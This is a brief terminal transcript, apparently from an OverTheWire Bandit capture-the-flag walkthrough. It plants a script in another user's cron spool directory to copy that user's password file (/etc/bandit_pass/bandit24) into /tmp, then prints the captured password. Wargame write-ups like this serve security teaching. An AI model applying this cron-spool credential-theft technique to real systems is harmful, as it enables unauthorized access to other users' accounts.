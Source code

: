 bandit23@melinda:/tmp/zw$ cat gimmepassword.sh 
/#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/zww


bandit23@melinda:/tmp/zw$ chmod 777 gimmepassword.sh 

bandit23@melinda:/tmp/zw$ cp gimmepassword.sh /var/spool/bandit24/

bandit23@melinda:/tmp/zw$ cat /tmp/zww

UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ